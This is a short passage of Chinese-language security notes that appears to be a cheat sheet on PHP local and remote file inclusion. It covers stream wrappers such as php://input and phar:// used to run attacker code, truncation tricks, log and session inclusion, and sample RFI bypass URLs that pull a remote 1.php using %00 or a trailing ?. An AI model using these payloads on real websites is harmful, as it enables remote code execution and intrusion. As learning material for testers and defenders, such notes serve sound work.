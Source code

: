 data://与php://input，可以让用户来控制输入流

php://input访问请求地原始数据地只读流，将POST请求地数据当作php代码执行

phar://xxx.png/shell.php解压缩包地一个函数，不管后缀是什么，都会当作压缩包进行解压





00截断

长度截断（Windows：256，Linux：4096）

日志文件包含

session包含



#### RFI绕过

##### 空字符

%00

```
http://xxx.xxx.xxx.xx/test.php/?name=http://xxx.xxx.xx.x/1.php%00
```



##### 超长字符

./绕过

```
./././././././././././././././././././././././././././././././
```



##### ?绕过

```
http://xxx.xxx.xxx.xx/test.php/?name=http://xxx.xxx.xx.x/1.php?
```



##### 字符编码绕过

| 特殊字符 | 含义                         | 十六进制值 |
| -------- | ---------------------------- | ---------- |
| +        | URL中+号表示空格             | %2B        |
| 空格     | URL中的空格可以用+号或者编码 | %20        |
| /        | 分割目录和子目录             | %2F        |
| ?        | 分割实际的URL和参数          | %3F        |
| %        | 指定特殊字符                 | %25        |
| #        | 表示书签                     | %23        |
| &        | URL中指定的参数间的分隔符    | %26        |
| =        | URL中指定参数的值            | %3D        |
